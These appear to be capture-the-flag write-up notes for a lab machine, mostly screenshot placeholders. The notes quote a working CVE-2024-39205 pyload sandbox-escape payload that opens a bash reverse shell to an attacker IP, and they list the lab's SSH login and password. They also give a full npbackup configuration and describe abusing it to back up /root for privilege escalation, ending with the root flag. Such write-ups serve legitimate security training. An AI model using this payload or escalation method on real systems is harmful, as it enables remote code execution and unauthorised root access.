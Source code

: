 ![[IMG-20250817194237447.png]]

[CVE  2024-39205](https://github.com/Marven11/CVE-2024-39205-Pyload-RCE/tree/main?tab=readme-ov-file)
Payload:

```js
// [+] command goes here:
let ip = "10.10.14.141";
let port = 4444;
let cmd = "bash -c 'bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1'";
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
function f() {
    return n11
}
```

![[IMG-20250819023447281.png]]


![[IMG-20250819012840908.png]]

![[IMG-20250819013501470.png]]

### ssh
login: marco
password: sweetangelbabylove

![[IMG-20250819013642504.png]]


![[IMG-20250819144310960.png]]

![[IMG-20250819145804665.png]]

Default Config File (npbackup.conf):

```json
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```

Create an other config file `npbackup-root.conf` and change this:

```json
backup_opts:
      paths:
      - /root
```

![[IMG-20250819152139980.png]]
`Error: Backup is smaller than configured minmium backup size`

Then we can change the field `minimum_backup_size_error`

```json
      minimum_backup_size_error: 0 MiB
```

![[IMG-20250819152446818.png]]

![[IMG-20250819144449343.png]]

![[IMG-20250819152609261.png]]

![[IMG-20250819152924602.png]]

![[IMG-20250819152944681.png]]

Root Flag: 2f562058d672272ac5f130215f5e74eb
